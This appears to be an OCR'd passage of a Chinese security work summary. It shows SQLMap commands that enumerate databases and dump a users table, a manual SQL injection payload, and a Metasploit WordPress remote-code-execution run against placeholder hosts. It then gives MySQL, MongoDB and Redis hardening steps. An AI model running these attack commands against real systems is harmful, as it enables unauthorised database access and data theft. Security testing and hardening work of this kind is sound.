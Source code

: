```bash
# 使用SQLMap进行SQL注入测试
sqlmap -u "http://example.com/page.php?id=1" --batch --dbs
# 获取数据库列表
sqlmap -u "http://example.com/page.php?id=1" --batch --current-user
# 获取当前用户
sqlmap -u "http://example.com/page.php?id=1" --batch --dump -D testdb -T users
# 导出用户表
# 使用Burp Suite拦截请求并手动测试
# 1. 配置浏览器代理为127.0.0.1:8080
# 2. 在Burp Suite中拦截HTTP请求
# 3. 修改参数并转发，观察响应变化
# 示例：修改id参数为1' OR '1'='1
# 使用Metasploit进行漏洞利用
msfconsole
use exploit/multi/http/wp_core_admin_rce
set RHOSTS target.com
set TARGETURI /wordpress/
set USERNAME admin
set PASSWORD password
run
```
---
### 3. 数据库安全加固
#### 加固内容
- **MySQL**：修改root用户名，禁用远程登录，启用日志审计。
- **MongoDB**：配置访问控制列表，启用数据加密。
- **Redis**：设置访问密码，禁用危险命令。
#### 成果
- 阻断未授权访问请求200+次，数据泄露风险降至0。
#### 代码示例
```sql
-- MySQL安全加固示例
-- 1. 修改root密码
ALTER USER 'root'@'localhost' IDENTIFIED BY 'StrongPassword!';
-- 2. 删除匿名用户
DELETE FROM mysql.user WHERE User='';
-- 3. 禁止远程root登录
DELETE FROM mysql.user WHERE User='root' AND Host NOT IN ('localhost', '127.0.0.1', '::1');
-- 4. 刷新权限
FLUSH PRIVILEGES;
-- 5. 启用日志审计
SET GLOBAL general_log = 'ON';
SET GLOBAL general_log_file = '/var/log/mysql/mysql.log';
-- MongoDB安全加固示例
-- 1. 创建管理员用户
use admin
db.createUser({
  user: "admin",
  pwd: "StrongPassword!",
  roles: ["userAdminAnyDatabase", "dbAdminAnyDatabase"]
})
-- 2. 启用认证
vi /etc/mongod.conf
# 添加以下配置：
security:
  authorization: enabled
-- 3. 重启MongoDB服务
systemctl restart mongod
-- Redis安全加固示例
-- 1. 设置访问密码
CONFIG SET requirepass "StrongPassword!"
```
